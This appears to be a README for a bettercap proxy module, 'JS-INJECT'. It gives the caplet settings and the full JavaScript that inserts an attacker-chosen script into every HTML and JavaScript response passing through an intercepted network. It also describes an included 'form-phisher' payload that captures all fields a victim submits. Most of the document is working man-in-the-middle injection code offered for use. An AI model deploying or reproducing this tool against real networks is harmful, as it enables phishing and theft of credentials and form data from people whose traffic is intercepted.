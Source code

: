 ### JS-INJECT

A simple yet powerful proxy module that lets you inject your JavaScript payloads into any HTTP web page/application.

It prevents re-initiation of your script when it's already active in the DOM by declaring your payload as a unique function variable, and in some cases ignores the `X-Content-Type-Options: nosniff` header by checking for both `Content-Type` headers and file extensions.

All you have to do is set your payload path in the caplet file.

**caplets/jsinject/jsinject.cap**

```sh
# Set the path to your JavaScript payload
set jsinject.payload caplets/jsinject/payloads/form-phisher.js

set http.proxy.script caplets/jsinject/jsinject.js
set net.sniff.verbose false
net.sniff on
http.proxy on
```

**caplets/jsinject/jsinject.js**

```javascript
var session_id,
    payload,
    payload_path,
    payload_container = "" + 
    	"if (!self.{{session_id}}) {\n" + 
    		"var {{session_id}} = function() {\n" + 
    			"{{payload}}\n" + 
    		"}\n" + 
    		"{{session_id}}();\n" + 
    	"}\n"

var green = "\033[32m",
    bold  = "\033[1;37m",
    reset = "\033[0m"

function randomString(length) {
	var chars  = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz",
	    buffer = ""
	while (buffer.length < length) {
		index = parseInt( Math.random() * chars.length )
		buffer = buffer + chars.charAt(index)
	}
	return buffer
}

function configure() {
	payload_path = env("jsinject.payload").replace(/\s*/g, "")
	payload = readFile(payload_path)
	payload = payload_container.replace("{{payload}}", payload).replace(/\{\{session_id\}\}/g, session_id)
}

function onLoad() {
	session_id = randomString( 4 + parseInt( Math.random() * 16 ) )
	configure()
	log_info(green + "jsinject" + reset + " started injecting payload " + bold + payload_path + reset + " into HTTP traffic.")
	log_info(green + "jsinject" + reset + " session ID is " + bold + session_id + reset + ".")
}

function onResponse(req, res) {
	configure()
	if ( res.ContentType.match(/^text\/html/i) || req.Path.replace(/\?.*/i, "").match(/\.(htm|html)$/i) ) {
		res.ReadBody()
		log_debug("(" + green + "jsinject" + reset + ") attempting to inject HTML document in " + bold + req.Hostname + reset + " ...")
		res.Body = res.Body.replace(/<head>/i, "<head><script>" + payload + "</script>")
	}
	if ( res.ContentType.match(/^text\/javascript/i) || res.ContentType.match(/^application\/javascript/i) || req.Path.replace(/\?.*/i, "").match(/\.js$/i) ) {
		res.ReadBody()
		log_debug("(" + green + "jsinject" + reset + ") attempting to inject JS document in " + bold + req.Hostname + reset + " ...")
		res.Body = payload + res.Body
	}
}
```

<hr>

### Included payload

<b><a href="./payloads/form-phisher.js">form-phisher.js</a></b> is included, which will wait for the victim to press a key before binding to the enter key, mouse click, screen tap and submit events in order to phish all the fields. This can be useful when you want to sniff proxied forms that are submitted over HTTPS, don't use URL parameters, etc.
